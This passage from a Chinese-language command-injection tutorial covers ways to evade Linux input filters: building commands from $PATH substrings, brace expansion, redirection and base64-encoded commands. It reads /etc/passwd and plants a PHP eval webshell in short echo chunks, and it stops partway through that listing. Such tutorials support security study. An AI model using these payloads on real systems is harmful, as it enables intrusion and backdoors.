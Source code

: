 那么相信让你拼接成想要的命令都不难吧，至于怎么设置变量然后去引用，不过多赘述，

道理都是相同的，我找字符找的眼睛快瞎了

`${PATH:91:1}h${PATH:139:1}a${PATH:103:1}${PATH:143:1}`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicvOY4f5Hf54tnuPUGPcHGk17mibM7JQfd3DrpcJibplaNghCniaDaYOgUw/640?wx_fmt=png)

#### 2.6 使用大括号绕过空格过滤

在 linux 下我们还可以使用大花括号来绕过空格的限制，比如 ls -alt 命令中间的空格

`{ls,-alt}`  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicYW8uLEyGX0MfLFx5nDLwXrgYAdHcJ0ibvWBhVdl5vuOBnd0bl8KKmQQ/640?wx_fmt=png)  
再比如 cat /etc/passwd 命令中间的空格

`{cat,/etc/passwd}`  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicLuRthefaulIdEiaqUZjEGYHhtPo13xOUrAAYcgCZvzbzh2kW3P4z5LA/640?wx_fmt=png)

#### 2.7 了解重定向符号在绕过中的作用

我们还可以使用 <> 来绕过空格。请仔细看执行后的效果。

linux 中，小于号 <表示的是输入重定向，就是把<后面跟的文件取代键盘作为新的输入设备，而> 大于号是输出重定向，比如一条命令，默认是将结果输出到屏幕。

但可以用 > 来将输出重定向，用后面的文件来取代屏幕，将输出保存进文件里

`ls<>alt`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicC5g6YPq9r2ibnGibQ4eShg81sBD7LhWfs28Tnb1kE0qO7oQAwcAlahfA/640?wx_fmt=png)

#### 2.8 linux 中特殊的 base64 编码

我们还可以在自己的 linux 系统中将命令进行 base64 编码

然后再拿去目标请求中命令执行, 使用 base64 的 - d 参数解码。

```
echo whoami|base64 //先输出whoami的base64编码
`echo dwhvYW1pCg==|base64 -d`//将其base64解码
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvic1YOqP7x1VFqUwEVxYjSEnq7QxHBEHqcMcibfzFyhzHibDAD4ALiaibgVCQ/640?wx_fmt=png)  
再次强调用反引号括起来的值会被当做命令执行

**三、一个有趣的例子**
-------------

咱们再根据 base64 进行一次发散思维。

如果某处存在命令执行但是限制了长度，我们可以利用这种方式来写一个密码为 123 的 webshell 一句话木马。

```
echo "<?php @eval($_POST[123]);?>"| base64
//输出一句话的base64编码
```

```
echo -n PD>a;
echo -n 9w>b;
echo -n aH>c;
echo -n Ag>d;
echo -n QG>e;
echo -n V2>f;
echo -n YW>g;
echo -n wo>h;
echo -n JF>i;
echo -n 9Q>j;
echo -n T1>k;
echo -n NU>l;
```